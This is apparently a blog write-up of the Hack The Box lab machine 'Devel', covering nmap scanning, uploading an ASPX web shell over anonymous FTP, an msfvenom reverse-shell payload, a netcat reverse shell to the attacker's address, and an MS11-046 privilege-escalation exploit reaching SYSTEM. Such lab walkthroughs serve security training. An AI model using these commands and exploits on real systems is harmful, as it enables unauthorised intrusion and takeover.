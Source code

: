 ```yaml
---
title: Devel HTB (English)
image: /assets/img/Anexos/Pasted%20image%2020250410152509-1.png
description: Devel HTB Machine [Difuculty easy]
categories: [CTF,HackTheBox]
tags: [hacking,easy]
---
```




## Introduction

Devel, while relatively simple, demonstrates the security risks associated with some default program configurations. It is a beginner-level machine which can be completed using publicly available exploits. 

### Machine Description

![](/assets/img/Anexos/Pasted%20image%2020250410191300-1.png)

- Name: Devel
- Goal: Get two flags
- Difficulty: easy
- Operating System: Windows
- link: [Devel](https://app.hackthebox.com/machines/3)


### PDF Link
- PDF: [PDF Link](https://github.com/juanbelin/Writeups-CTFs-Challenges/blob/main/HTB/M%C3%A1quina%20Devel.pdf)



## Reconnaissance

We start executing `nmap` in order to know the ports and services running in the machine.

```shell
nmap -sSCV --min-rate=5000 -p- --open -n -Pn 10.10.10.5 -oN nmap.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-10 15:24 CEST
Nmap scan report for 10.10.10.5
Host is up (0.043s latency).
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Nmap report us the ports _21_(ftp) and _80_(http). In this scenario ftp allows anonymouys login so let's connect. 


```shell
ls
200 PORT command successful.
150 Opening ASCII mode data connection.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete
```

Once within ftp, we can see this files. This files seem to be from a web server. We confirm this watching this in the web:




![](/assets/img/Anexos/Pasted%20image%2020250410153112-1.png)

Curiously the main image has the same name as the ftp image so wen can start thinking that ftp is using the web directory.

As it's using IIS we must use a _.aspx_ in order to gain a reverse shell.
![](/assets/img/Anexos/Pasted%20image%2020250410154506-1.png)


## Explotation
I made the next payload using `msfvenom`

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.4  LPORT=4444 -f aspx >reverse.aspx
```


Then I upload it using ftp



![](/assets/img/Anexos/Pasted%20image%2020250410154021-1.png)

> This didn't work, when I finished the machine I realized it was because I should have used meterpreter xd, so I did it with:


I copy this _cmd.aspx_

```shell
cp /usr/share/wordlists/seclists/Web-Shells/FuzzDB/cmd.aspx .
```

Then I upload it 
```shell
ftp> put cmd.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1442 bytes sent in 0.000594 seconds (2.32 Mbytes/s)
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
04-10-25  05:51PM                 1442 cmd.aspx
```

Now we have RCE. The next step is gaining a reverse shell.
![](/assets/img/Anexos/Pasted%20image%2020250410165207-1.png)


`nc` is not installed in Windows by default, so I just copy it from **seclist** and while I'm sharing the file using `impacket`, I execute it remotely using the `cmd.aspx` in order to get a reverse shell.
```shell
cp /usr/share/wordlists/seclists/Web-Shells/FuzzDB/nc.exe .
```

```shell
\\10.10.16.4\smbFolder\nc.exe -e cmd 10.10.16.4 4444 
```


![](/assets/img/Anexos/Pasted%20image%2020250410165637-1.png)

## Privilage Escalation
Now I'm in, I run `systeminfo` to know if it can be vulnerable. 
```
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          10/4/2025, 2:09:42 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.292 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.373 MB
Virtual Memory: In Use:    768 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection 4
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
                                 [02]: fe80::4d6a:f8a6:c841:598a
                                 [03]: dead:beef::9556:9677:a8ff:c58e
                                 [04]: dead:beef::4d6a:f8a6:c841:598a

c:\windows\system32\inetsrv>wget
wget
'wget' is not recognized as an internal or external command,
operable program or batch file.
```

Searching in google I figure out this version is vulnerable. I use the next POC to exploit:

> https://github.com/n3rdh4x0r/CVE-2011-1249?tab=readme-ov-file

```shell
 wget https://raw.githubusercontent.com/n3rdh4x0r/CVE-2011-1249/refs/heads/main/40564.c
```

```shell
i686-w64-mingw32-gcc 40564.c -o newshell.exe -lws2_32
```

Now I use `impacket` again to share it using smb.

![](/assets/img/Anexos/Pasted%20image%2020250410173202-1.png)

But didn't work lmao, so I changed to this one:

- https://github.com/am0nsec/exploit/blob/master/windows/privs/MS11-046/ms11-046.exe


```powershell
C:\Users\Public>copy \\10.10.16.4\smbFolder\ms11-046.exe virus.exe
copy \\10.10.16.4\smbFolder\ms11-046.exe virus.exe
        1 file(s) copied.
```

```powershell
C:\Users\Public>.\virus.exe
.\virus.exe

c:\Windows\System32>whoami
whoami
nt authority\system
```



